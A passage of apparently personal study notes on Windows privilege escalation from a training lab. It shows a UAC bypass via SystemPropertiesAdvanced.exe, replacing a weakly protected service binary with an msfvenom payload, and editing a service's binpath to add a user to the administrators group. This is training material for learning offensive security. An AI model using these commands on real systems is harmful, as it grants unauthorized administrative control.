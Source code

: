 Now, we can execute the 32-bit version of **SystemPropertiesAdvanced.exe** from the target host:
```console
C:\zeropio> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

This is successful, and we receive an elevated shell that shows our privileges are available and can be enabled if needed.

## Weak Permissions 

Permissions on Windows systems are complicated and challenging to get right.

### Permissive File System ACLs

We can use [SharpUp](https://github.com/GhostPack/SharpUp/) from the GhostPack suite of tools to check for service binaries suffering from weak ACLs:
```console
PS C:\zeropio> .\SharpUp.exe audit
```

The tool identifies the **PC Security Management Service** (for example), which executes the **SecurityService.exe** binary when started. Using `icacls` we can verify:
```console
PS C:\zeropio> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

We can replace it now with a msfvenom payload:
```console
C:\zeropio> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\zeropio> sc start SecurityService
```

### Weak Service Permissions 

We can see a misconfigured program after running SharpUp. We can verify it with [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk):
```console
C:\zeropio> accesschk.exe /accepteula -quvcw WindscribeService
```

Check the admin group to confirm that our user is not in them:
```console
C:\zeropio> net localgroup administrators
```

We can use our permissions to change the binary path maliciously:
```console
C:\zeropio> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```

Next, we must stop the service, so the new binpath command will run the next time it is started:
```console
C:\zeropio> sc stop WindscribeService
```

Since we have full control over the service, we can start it again, and the command we placed in the binpath will run even though an error message is returned:
```console
C:\zeropio> sc start WindscribeService
```
